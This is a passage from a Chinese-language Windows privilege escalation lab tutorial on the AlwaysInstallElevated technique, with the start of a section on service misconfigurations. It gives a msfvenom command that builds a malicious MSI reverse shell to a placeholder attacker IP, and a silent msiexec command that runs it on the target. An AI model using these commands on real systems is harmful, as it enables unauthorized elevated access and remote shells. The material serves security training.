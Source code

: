 **AlwaysInstallElevated**

Windows 安装程序文件（也称为 .msi 文件）用于在系统上安装应用程序，它们通常以启动它的用户的权限级别运行；但是，MSI文件也可以被配置为以任何用户帐户（甚至是非特权帐户）的更高权限运行。 这可能允许我们生成一个以管理员权限运行的恶意 MSI 文件。

注意： AlwaysInstallElevated 方法在此实验中的目标机器上不起作用，该方法在本小节仅作为知识点信息提供。

此方法需要设置两个注册表值，可以使用以下命令查询：


```Shell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

为了能够利用此漏洞，以上两个注册表值都应该设置。 设置完毕之后，就可以使用 msfvenom 生成恶意的.msi 文件，如下所示：


```Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

由于这是一个反向 shell，你还需要在攻击机上运行相应配置的 Metasploit Handler模块来进行相关端口的监听。

将创建的文件传输到目标机，在目标机上使用以下命令运行MSI程序，最后将在攻击机上接收到一个反向 shell：


```Shell
#在目标机上
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## **滥用服务配置错误**

**Windows服务**

Windows 服务由服务控制管理器 (SCM- Service Control Manager) 管理。 SCM 是负责根据需要管理服务状态、检查任何给定服务的当前状态并通常会提供配置服务的方法的一个进程。

Windows 机器上的每个服务都有一个关联的可执行文件，只要服务启动，SCM 就会运行相关的可执行文件。 值得注意的是，服务所关联的可执行文件还实现了与 SCM 通信的特殊功能，每个服务还会指定运行该服务的用户帐户。

为了更好地理解服务的结构，让我们使用<span style="color: #FBBFBC">`sc qc`</span>命令检查 apphostsvc 服务配置：

![](assets/Ue2kbjAZFoqIK8xWa2VcLCbPnSf.png)
